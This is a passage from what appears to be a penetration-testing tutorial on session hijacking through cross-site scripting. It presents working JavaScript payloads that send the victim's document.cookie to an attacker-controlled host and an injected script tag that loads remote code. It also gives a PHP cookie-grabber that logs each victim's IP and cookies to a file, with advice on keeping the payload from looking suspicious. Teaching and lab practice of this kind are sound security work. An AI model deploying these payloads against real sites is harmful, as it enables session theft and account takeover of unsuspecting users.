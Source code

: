 A session hijacking attack is very similar to the phishing attack we performed in the previous section. It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Using any of the two payloads should work in sending us a cookie, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first navigates to our cookie grabber PHP page, which may look suspicious.

We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM as well:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now, we can change the URL in the XSS payload we found earlier to use `script.js` (`don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload`):

```html
<script src=http://OUR_IP/script.js></script>
```

With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.

We can save the following PHP script as `index.php`, and re-run the PHP server again:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value:

```shell
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```
